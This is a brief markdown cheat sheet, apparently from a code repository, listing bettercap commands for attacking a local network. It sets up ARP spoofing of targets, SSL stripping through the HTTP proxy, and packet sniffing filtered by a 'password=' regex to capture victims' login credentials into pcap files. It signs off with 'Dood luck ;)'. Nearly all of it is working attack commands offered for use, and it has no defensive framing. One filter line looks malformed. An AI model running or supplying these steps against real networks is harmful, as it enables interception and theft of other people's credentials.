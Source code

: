 # bettercap
- Start:
```bash
bettercap -iface _your_interface_
```
- - Sniffing of the victim login credentials a Layer 2 Network

```bash
set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 0.0.0.0
set net.sniff.filter not arp (default=not arp)
set net.sniff.local true
set net.sniff.regexp .*password=.+
set net.sniff.verbose true
set net.sniff.output passwords.pcap
arp.spoof on
http.proxy on
net.sniff on
```
-----------------------------------------------------------

# Password sniff
```bash
set net.sniff.regexp .*password=.+
set net.sniff.output passwords.cap
```
# start arp spoofing attack
- Optional
```bash
# arp.spoof on
```
```bash
net.sniff on
```
# Dood luck ;)
